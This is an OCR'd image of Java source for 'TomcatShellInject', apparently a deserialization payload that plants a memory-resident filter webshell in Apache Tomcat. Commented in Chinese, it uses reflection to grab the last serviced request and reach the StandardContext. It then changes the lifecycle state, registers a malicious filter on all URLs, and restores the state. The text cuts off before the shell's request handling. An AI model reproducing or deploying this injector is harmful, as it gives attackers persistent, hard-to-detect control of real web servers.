 *   `@author threedr3am
    */
    public class TomcatShellInject extends AbstractTranslet implements Filter {

    static {
    try {
    /*shell注入，前提需要能拿到request、response等*/
    java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
    .getDeclaredField(“lastServicedRequest”);
    f.setAccessible(true);
    ThreadLocal t = (ThreadLocal) f.get(null);
    ServletRequest servletRequest = null;
    //不为空则意味着第一次反序列化的准备工作已成功
    if (t != null && t.get() != null) {
    servletRequest = (ServletRequest) t.get();
    }
    if (servletRequest != null) {
    javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
    org.apache.catalina.core.StandardContext standardContext = null;
    //判断是否已有该名字的filter，有则不再添加
    if (servletContext.getFilterRegistration(“threedr3am”) == null) {
    //遍历出标准上下文对象
    for (; standardContext == null; ) {
    java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField(“context”);
    contextField.setAccessible(true);
    Object o = contextField.get(servletContext);
    if (o instanceof javax.servlet.ServletContext) {
    servletContext = (javax.servlet.ServletContext) o;
    } else if (o instanceof org.apache.catalina.core.StandardContext) {
    standardContext = (org.apache.catalina.core.StandardContext) o;
    }
    }
    if (standardContext != null) {
    //修改状态，要不然添加不了
    java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
    .getDeclaredField(“state”);
    stateField.setAccessible(true);
    stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
    //创建一个自定义的Filter马
    Filter threedr3am = new TomcatShellInject();
    //添加filter马
    javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
    .addFilter(“threedr3am”, threedr3am);
    filterRegistration.setInitParameter(“encoding”, “utf-8”);
    filterRegistration.setAsyncSupported(false);
    filterRegistration
    .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
    new String[]{"/*"});
    //状态恢复，要不然服务不可用
    if (stateField != null) {
    stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
    }
